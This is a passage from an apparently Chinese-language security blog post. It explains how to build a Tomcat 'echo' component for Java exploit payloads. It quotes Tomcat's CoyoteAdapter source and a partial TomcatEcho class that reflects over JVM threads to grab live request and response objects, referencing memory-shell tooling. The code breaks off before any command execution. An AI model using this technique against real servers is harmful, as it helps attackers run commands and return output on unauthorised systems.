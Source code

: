 这个我跟了一下源码（方法就是，前面不是打了断点，在堆栈那个视图，一个一个点，看里面的方法体里面有没有相关的东西，有时候点过去位置不对就搜一下方法名，直接看方法），就是 org.apache.catalina.connector.CoyoteAdapter#service 这个前几行。

```java
public static final int ADAPTER_NOTES = 1;

public void service(org.apache.coyote.Request req, org.apache.coyote.Response res) throws Exception {

    Request request = (Request) req.getNote(ADAPTER_NOTES);
    Response response = (Response) res.getNote(ADAPTER_NOTES);

    if (request == null) {
        // Create objects
        request = connector.createRequest();
        request.setCoyoteRequest(req);
        response = connector.createResponse();
        response.setCoyoteResponse(res);

        // Link objects
        request.setResponse(response);
        response.setRequest(request);

        // Set as notes
        req.setNote(ADAPTER_NOTES, request);
        res.setNote(ADAPTER_NOTES, response);

        // Set query string encoding
        req.getParameters().setQueryStringCharset(connector.getURICharset());
    }
}
```

这就简单了，看起来 [pen4uin/java-echo-generator](https://github.com/pen4uin/java-echo-generator/blob/main/jeg-core/src/main/java/jeg/core/template/tomcat/TomcatCmdExecTpl.java) 还是有可以借鉴的地方，学习了，按着这个思路，以下是我的第一版漂亮代码。（注释要写好，以免下次看到又忘记了）getFieldValue 和 invokeMethod 可直接在 MemShellParty 中搜索实现，这个下面就不展示了。

```java
public class TomcatEcho {
    public TomcatEcho() {
        try {
            Set<Thread> threads = Thread.getAllStackTraces().keySet();
            for (Thread thread : threads) {
                Object target = getFieldValue(thread, "target");
                if (target instanceof Runnable) {
                    Object requestGroupInfo;
                    try {
                        requestGroupInfo = getFieldValue(getFieldValue(getFieldValue(target, "this$0"), "handler"), "global");
                    } catch (NoSuchFieldException ignored) {
                        continue;
                    }
                    if (requestGroupInfo == null) {
                        continue;
                    }
                    List<?> processors = (List<?>) getFieldValue(requestGroupInfo, "processors");
                    for (Object processor : processors) {
                        // org.apache.coyote.Request
                        Object coyoteRequest = getFieldValue(processor, "req");
                        // org.apache.catalina.connector.Request
                        Object request = invokeMethod(coyoteRequest, "getNote", new Class[]{Integer.class}, new Object[]{1});
                        // org.apache.catalina.connector.Response
                        Object response = invokeMethod(request, "getResponse", null, null);
                        String data = getDataFromRequest(request);
```